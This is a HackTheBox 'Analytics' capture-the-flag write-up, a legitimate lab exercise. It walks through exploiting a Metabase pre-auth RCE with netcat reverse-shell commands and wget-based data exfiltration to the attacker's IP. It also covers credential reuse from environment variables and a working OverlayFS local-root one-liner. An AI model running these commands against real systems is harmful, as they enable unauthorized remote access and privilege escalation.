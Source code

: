 # HackTheBox: [Analytics](https://app.hackthebox.com/machines/Analytics)

## Enumeration

```console
$ nmap -n -sCV -T4 -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 14:34 CST
Nmap scan report for 10.10.11.233
Host is up (0.21s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.15 seconds
```

Port 80 redirects to host `analytical.htb`, so I added that to `/etc/hosts`.

The page had a "Login" button, which redirected to `data.analytical.htb`, so I also added that to `/etc/hosts`.

<http://data.analytical.htb/auth/login>:

![](_/htb-analytics-20231010-1.png)

## Exploitation

[Metabase](https://www.metabase.com/) has a recent [pre-auth RCE](https://github.com/joaoviictorti/CVE-2023-38646) vulnerability.

`"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`

There is a [PoC for the vulnerability](https://github.com/joaoviictorti/CVE-2023-38646) available, but it's in Rust and I had some trouble getting it to compile on Kali.

The version of `cargo` on Kali is currently 1.65.0, which wasn't sufficient for the PoC, so I installed version 1.73.0 in userspace. Still, it complained about an error with the OpenSSL depency. To fix that, I added this to the `[dependencies]` section of `Cargo.toml`:

```console
openssl = { version = "0.10", features = ["vendored"] }
```

I started a `nc` listener on port 443 and tried the exploit:

```console
$ cargo run -- --url http://data.analytical.htb --command 'nc 10.10.16.5 443 -e sh'
    Finished dev [unoptimized + debuginfo] target(s) in 1.25s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'nc 10.10.16.5 443 -e sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

The exploit completes, however the listener sees a connection that immediately exits.

I was able to do some slow and awkward recon by passing simple commands to `wget` where I could view the results via Python3 `http.server`:

```console
$ cargo run -- --url http://data.analytical.htb --command 'wget http://10.10.16.5:8888/`whoami`'
```

And on the server:

```console
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.233 - - [10/Oct/2023 10:53:38] code 404, message File not found
10.10.11.233 - - [10/Oct/2023 10:53:38] "GET /metabase HTTP/1.1" 404 -
```

Via that method, I was able to determine the box was running [Alpine Linux](https://www.alpinelinux.org/) in a relatively minimal environment. That information is also discoverable via the [Metabase dockerfile](https://github.com/metabase/metabase/blob/master/Dockerfile), if you know where to look.

Eventually I discovered that running the commands explicitly via `busybox` solved the problem:

```console
$ cargo run -- --url http://data.analytical.htb --command 'busybox nc 10.10.16.5 443 -e busybox sh'
    Finished dev [unoptimized + debuginfo] target(s) in 0.06s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'busybox nc 10.10.16.5 443 -e busybox sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

And on the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.233] 35149
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```

There are some interesting files in the container, notably `metabase.db.mv.db`, which (I think) is the H2 database to bootstrap the application. I transferred it and the `jar` file for the app (`/app/metabase.jar`) to my machine using `nc`. Running `strings` on the database turned up a user login and password hash:

```text
metalytics@data.htbJJohnnyISmith
<$2a$10$HnyM8[...]
```

I started `john` with `rockyou.txt` but ultimately never recovered the password, but I didn't need it, because the environment had what I needed:

```console
env | grep META
META_PASS=An4lyt[...]
META_USER=metalytics
```

Thanks to password-reuse I was able to login to the target:

```console
$ ssh metalytics@$t
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
[...]

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41

metalytics@analytics:~$ cat user.txt
1face9[...]
```

## Escalation

### Looney Tunables?

```console
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

metalytics@analytics:~$ cat /etc/issue
Ubuntu 22.04.3 LTS \n \l
```

This host appears vulnerable to the [Looney Tunables buffer overflow](https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt), an vulnerability exploitable via the `GLIBC_TUNABLES` environmental variable.

[CrowdSec has a nice write-up](https://www.crowdsec.net/blog/detect-looney-tunables-exploitation-attempts), which includes a way to verify that the host is vulnerable:

```console
metalytics@analytics:~$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```

A [PoC is available for the Looney Tunables bug](https://github.com/RickdeJager/CVE-2023-4911), but this target doesn't have `gcc` and it's not the cleanest exploit; i.e., it takes five minutes to complete on Ubuntu.

But there's a quicker option.

## OverlayFS Exploit

The target is vulnerable to [CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) and [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629). The exploit is a one-liner:

```console

metalytics@analytics:/tmp/t$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("sh")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
## id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
## cat /root/root.txt
127e2e[...]
```
